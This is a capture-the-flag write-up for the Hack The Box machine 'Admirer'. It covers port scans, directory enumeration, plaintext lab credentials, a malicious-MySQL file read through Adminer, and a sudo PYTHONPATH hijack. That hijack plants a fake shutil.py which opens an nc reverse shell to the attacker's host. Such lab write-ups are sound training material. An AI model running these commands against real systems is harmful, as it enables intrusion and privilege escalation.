# [Admirer](https://app.hackthebox.com/machines/admirer)

```bash
nmap -p- --min-rate 10000  10.10.10.187 -Pn
```



After knowing open ports (21,22,80), we can do greater nmap scan.

```bash
nmap -A -sC -sV -p21,22,80 10.10.10.187 -Pn 
```




While browsing 'robots.txt' file on HTTP server, I see that '/admin-dir' is prohibited, but it's not , I have access to this endpoint (forbidden).




Let's do directory enumeration for '/admin-dir' endpoint.

```bash
gobuster dir -u http://10.10.10.187/admin-dir/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 40 -x txt
```



From this enumeration, I see that 'contacts.txt' and 'credentials.txt' files.



I got sensitive credentials of FTP server.

ftpuser : %n?4Wz}R$tTF7


I get all files from FTP server `mget *`.




From **'dump.sql'** file, I don't get anything.


But from '**html.tar.gz**' file, I got below sensitive credentials.


From 'utility-scripts', there is file called 'db_admin.php' 




I grab below credentials from here.

waldo:Wh3r3_1s_w4ld0?

But doesn't work on anywhere.


I found  'adminer.php' for 'utility-scripts' on HTTP server.

For the version of 'Adminer' product, I found CVE.

That's CVE number called **'CVE-2021-43008'**.






I need to change also 'bind-address' value into **'0.0.0.0'** as because external connections work.

Also don't forget to create table.
```sql
create table test(content varchar(5000))
```


Now, I just enter my malicious SQL command to read system files.

```sql
LOAD DATA LOCAL INFILE '../index.php'
INTO TABLE test
FIELDS TERMINATED BY "\n"
```








Let's read data like this.

```bash
select * from test;
```




I grab credentials from here.

waldo: &<h5b~yK3F#{PaPB&dA}{H>


Let's login into SSH via these credentials.


user.txt




For privilege escalation, I just run `sudo -l` command and see the results.



Let's read this file.




Here, we see that '/opt/scripts/backup.py' file is performed.

Let's read this.




Here, I see that from 'shutil.py' file , 'make_archive' method is executed for legitimate purposes.

Now, I just create malicious shutil.py file and create method (make_archive) which contains reverse shell script.

```python
def make_archive(a,b,c):
	__import__('os').system('nc -e /bin/sh 10.10.14.10 1337')
```




Now, while we execute our SUDO script , we need to specify PYTHONPATH location that Python automatically selects our malicous `shutil.py` file.

```bash
sudo PYTHONPATH=/tmp /opt/scripts/admin_tasks.sh
select 6 # as because I modify content on here
```




We got reverse shell from port (1337)



root.txt

